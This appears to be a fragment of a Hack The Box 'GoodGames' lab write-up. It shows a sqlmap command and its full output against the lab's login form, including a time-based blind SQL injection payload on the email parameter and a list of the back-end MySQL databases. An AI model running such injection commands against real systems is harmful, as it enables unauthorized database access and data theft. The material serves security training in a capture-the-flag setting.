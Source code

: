 
### SQLmap

```
┌──(root💀kali)-[~/htb/machines/goodgames]
└─# sqlmap -u 'http://goodgames.htb/login' --data 'email=a&password=b' --dbs --batch                                                                                                     1 ⨯
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:11:00 /2022-07-30/

[14:11:00] [INFO] resuming back-end DBMS 'mysql' 
[14:11:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin' AND (SELECT 9219 FROM (SELECT(SLEEP(5)))RSrB) AND 'kdOW'='kdOW&password=password
---
[14:11:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:11:00] [INFO] fetching database names
[14:11:00] [INFO] fetching number of databases
[14:11:00] [INFO] resumed: 2
[14:11:00] [INFO] resuming partial value: information_sche
[14:11:00] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                              
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[14:11:15] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[14:11:26] [INFO] adjusting time delay to 2 seconds due to good response times
ma
[14:11:34] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main

[14:12:05] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 14:12:05 /2022-07-30/

```
